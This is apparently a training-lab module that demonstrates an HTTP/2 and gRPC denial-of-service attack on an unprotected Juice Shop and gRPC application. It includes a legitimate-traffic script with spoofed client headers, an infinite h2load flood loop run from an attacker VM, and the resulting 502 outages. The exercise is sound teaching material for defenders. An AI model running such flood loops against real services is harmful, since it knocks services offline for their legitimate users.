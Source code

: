 Module 1 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

| In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We
| will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

- Generate legitimate traffic 
   
  - In UDF, Click on Access for the **legitimate traffic** VM and select WebShell 
    We will utilize the good.sh bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. note:: 
   Excerpt of good.sh bash script 

.. code-block:: bash 

      #!/bin/bash
      cd /grpc/examples/python/route_guide/

      IP=10.1.1.4
      PORT=600
      URI='good_path.html'


      declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")



      while true; do
      echo
      python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
      h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.4:443/testing/ &> /dev/null

      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
      echo
      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &

   - At the CLI prompt start the good shell script  

.. code-block:: bash 

       ./good.sh
   
    
Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points 

- Start HTTP/2 Flood attack

- Back in the UDF class, click  Access on the **Attacker** VM and select WebShell
  
.. note::  
   http2flood.sh script

.. code-block:: bash 

      #!/bin/sh
      while true; do
      h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature
      done


  - At CLI prompt start the HTTP/2 Flood: 

.. code-block:: bash  
   
    ./scripts/http2flood.sh 


Attack script Output

.. code:: shell 

   finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

- Click back on to the WebShell on the legitimate VM. Did the output from
   the script change? Output now shows the HTTP/2 service is
   experiencing an outage.

.. code:: shell

  JUICESHOP HTTP Code:200
        details = "Received http2 header with status: 502"
        debug_error_string = "{"created":"@1650395963.222837020","description":"Received http2 :status header with non-200 OK status","file":"src/core/ext/filters/http/client/http_client_filter.cc","file_line":134,"grpc_message":"Received http2 header with status: 502","grpc_status":14,"value":"502"}"

- Stop the HTTP2Flood attack, by pressing Ctrl-C


